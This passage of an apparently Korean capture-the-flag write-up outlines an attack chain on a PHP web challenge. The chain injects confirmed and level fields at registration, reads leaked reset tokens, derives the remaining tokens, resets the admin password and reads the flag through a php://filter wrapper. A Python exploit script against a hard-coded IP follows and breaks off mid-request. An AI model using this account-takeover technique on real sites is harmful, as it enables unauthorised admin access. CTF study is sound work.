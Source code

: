 `admin` 계정 로그인 후, `/user_photo.php`에서 `php://filter/`를 사용하여 `XPNG`로 설정해주고 `Flag` 값을 읽어오면 된다.      
       
전체적인 과정을 요약하면 아래와 같다.    
             
1. `confirmed=1&level=226`을 추가하여 계정 등록
2. 로그인 후, `/mail/mail.php`에서 `uuid` 값을 읽기
3. `/mail/mail_view.php`에서 `reset_token1`,`reset_token2`값을 읽기
4. `reset_token1`,`reset_token2`값으로 역연산을 통해 `reset_token3`,`reset_token4` 값을 알아내기
5. `wrong_reset_token.php`에서 `admin` 패스워드 변경
6. `php://filter/`로 Flag 읽기
     
### Exploit Code           
```python
import requests 
import random, os, base64, binascii
from bs4 import BeautifulSoup as bs 

HOST = "http://20.55.48.101"

s = requests.session()

email = random.randbytes(8).hex() + '@x.com'
password = random.randbytes(8).hex()

print("userid:", email)
print("userpw:", password)

r = s.post(f"{HOST}/mail/", 
                  data={ 
                      "email": email,
                      "password":password,
                      **{
                        "register-submit": 1,
                        "confirm-password": password
                      }
                  })
print(r.status_code)
r = s.post(f"{HOST}/register.php", 
                  data={ 
                      "email": email,
                      "password":password,
                      "level":226,
                      "confirmed":1,
                      **{'register-submit': 1}
                  })
print(r.status_code)
r = s.post(f"{HOST}/",
                  data={
                      "email": email,
                      "password": password, 
                      **{"login-submit": 1}
                  })
print(r.status_code)
# print(r.text)
r = s.post(f"{HOST}/mail/",
                  data={
                      "email": email,
                      "password": password, 
                      **{"login-submit": 1}
                  })
print(r.status_code)
# print(r.text)
r = s.post(f"{HOST}/forget_password.php",
           data={
```
